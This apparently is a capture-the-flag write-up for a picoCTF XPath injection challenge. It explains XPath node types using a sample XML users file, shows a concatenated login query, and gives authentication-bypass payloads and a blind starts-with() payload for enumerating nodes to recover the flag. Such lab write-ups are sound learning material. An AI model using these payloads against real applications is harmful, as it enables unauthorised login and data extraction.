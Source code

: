http://mercury.picoctf.net:16521/

The hints shows that it is about xpath.

Learning what is XPath:

https://matthung0807.blogspot.com/2017/12/xpath.html

https://zh.wikipedia.org/wiki/XPath

https://jiang-niao.github.io/2020/04/24/%E4%BB%8Ectf%E9%A2%98%E7%9B%AE%E4%B8%AD%E5%AD%A6%E4%B9%A0xpath%E6%B3%A8%E5%85%A5/




This document is talking about 'what is xpath, and how to use it'.
If you want to understand how to get the flag, try to read to code xpathctf.py

XPath Example:
```
<?xml version="1.0" encoding="UTF-8"?> 
<root>
  <users>
    <user>
      <id>1</id>
      <username>admin</username>
      <password type='md5'>e10adc3949ba59abbe56e057f20f883e</password>
    </user>
    <user>
      <id>2</id>
      <username>jiangniao</username>
      <password type='md5'>099ebea48ea9666a7da2177267983138</password>
    </user>
    <user>
      <id>3</id>
      <username>skbl</username>
      <password type='md5'>e995e9ba0c8ec5c9ce392b86bfece354</password>
    </user>
  </users>
</root>

```

The type of node is:

```
<?xml version="1.0" encoding="UTF-8"?>: processing-instruction node
<root>: root element node
<id>: element node
type='md5': attribute node
jiangniao: text node
```
How to use xpath? this is the sample:

```
/root/users/user[username/text()='".$name."' and password/text()='".$pwd."']
``` 

If you want to list all of the text nodes, you can use wildcards "//\*", and [starts-with(text(),'a')] meas that checking there has a text node start from 'a' or not.

```
//*[starts-with(text(),'a')]
```

You can use this payload to test, is it have xpath vulnerability:

```
' or '1' or '
admin' or '1' or '
```


So, the final payload is :

```
' or //*[starts-with(text(),'a')] or 'a'='b
```

If you input this payload in username, the xpath search will like this:

```
/root/users/user[username/text()='' or //*[starts-with(text(),'a')] or 'a'='b' and password/text()='".$pwd."']
```

The priority of operator is:

<img width="300" alt="截圖 2022-03-09 下午2 57 50" src="https://user-images.githubusercontent.com/37798944/157388893-df93956d-ca48-44c7-a866-04e6ca6b198e.png">




First time run the xpathloop.py you can find all the nodes. But it needs lot of time. Maybe using multithreat is better....


<img width="1311" alt="截圖 2022-03-11 上午10 47 41" src="https://user-images.githubusercontent.com/37798944/157793080-641a75a1-6539-4e07-8ff4-3239e0910e85.png">


Here you got the FLAG "picoCTF{".
If edit the python file, let it start from "picoCTF{", you will get flag faster.



